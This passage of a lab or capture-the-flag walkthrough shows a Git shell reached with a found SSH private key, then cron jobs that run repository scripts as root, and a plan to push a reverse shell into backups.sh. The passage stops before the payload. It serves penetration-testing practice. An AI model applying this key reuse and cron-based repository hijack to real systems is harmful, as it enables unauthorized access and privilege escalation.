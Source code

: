 ```
drwxr-xr-x 4 git  git  4096 Nov  5  2020 ..
-rwxr-xr-x 1 root root  564 Nov  5  2020 authorized_keys
-rwxr-xr-x 1 root root 2590 Nov  5  2020 id_rsa
-rwxr-xr-x 1 root root  564 Nov  5  2020 id_rsa.pub
```

There's also mention of `git-shell-commands`, meaning that we probably need to use this SSH key to perform some Git commands. Using this key, we can `ssh` in to get a Git shell:

```
$ ssh -i git_key git@192.168.183.125 -p 43022
Last login: Wed Jul 12 05:15:03 2023 from 192.168.45.208
git> 
```

### Cronjob -> Git Hijack

I did some enumeration on the machine as `dademola` first, since there wasn't much I could do with a Git shell yet.&#x20;

There was a `git-server` folder present in the `/` directory:

```
[dademola@hunit /]$ ls
bin   dev  git-server  lib    lost+found  opt   root  sbin  sys  usr
boot  etc  home        lib64  mnt         proc  run   srv   tmp  var
```

There was also some mention of a `backups.sh` file being executed periodically as part of a cronjob:

```
[dademola@hunit /]$ cat /etc/crontab.bak
*/3 * * * * /root/git-server/backups.sh
*/2 * * * * /root/pull.sh
```

The `backups.sh` file is also in a `git-server` file of its own, and `pull.sh` is likely pulling changes from...somewhere. Since we have a Git shell, my guess is that we need to use it to submit a malicious PR that changes `backups.sh` to a reverse shell.

To exploit this, let's first clone the repository from the machine:

```
$ GIT_SSH_COMMAND='ssh -i key -p 43022' git clone git@192.168.183.125:/git-server 
Cloning into 'git-server'...
remote: Enumerating objects: 12, done.
remote: Counting objects: 100% (12/12), done.
remote: Compressing objects: 100% (9/9), done.
remote: Total 12 (delta 2), reused 0 (delta 0), pack-reused 0
Receiving objects: 100% (12/12), done.
Resolving deltas: 100% (2/2), done.
```

Here, we can see that `backups.sh` has nothing in it:

```bash
$ cat backups.sh 
#!/bin/bash
#
#
# # Placeholder
#
```
